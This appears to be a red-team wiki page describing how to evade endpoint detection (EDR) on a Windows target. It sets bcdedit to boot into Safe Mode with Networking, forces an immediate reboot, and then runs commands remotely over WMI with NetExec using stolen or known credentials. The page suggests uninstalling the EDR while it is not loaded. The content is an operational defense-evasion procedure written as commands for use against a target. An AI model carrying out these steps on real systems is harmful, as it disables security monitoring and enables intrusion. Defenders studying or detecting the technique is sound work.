

# Safe Mode With Networking

## Theory

Safe Mode with Networking is a specific way to start up your Windows computer when it’s experiencing significant problems. This mode will load only the most basic files and drivers needed for the operating system to function while also enabling networking capabilities

**EDR drivers and other components will therefore not be loaded in safe mode, although we can still access the target via the network.**


In order to bypass EDR products using the following method, a reboot is required, which is a bad OPSEC operation.


## Practice



On the target, we can use [bcdedit](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bcdedit) to enable Safe Mode With Networking on the next reboot, and reboot the host

```powershell
# Enable Safe Mode With Networking
bcdedit /set safeboot network

# Reboot
shutdown /r /t 0
```

After rebooting, the target will only have RPC ports open

<figure><figcaption></figcaption></figure>

We can utilize [Remote WMI execution](../../pivoting/remote-wmi.md) methods to achieve code execution on the system. Since the EDR has not been loaded, **we may attempt to uninstall it or perform actions that would typically be blocked.**

```bash
nxc wmi <TARGET> -u <USER> -p <PASSWORD> -x whoami
```


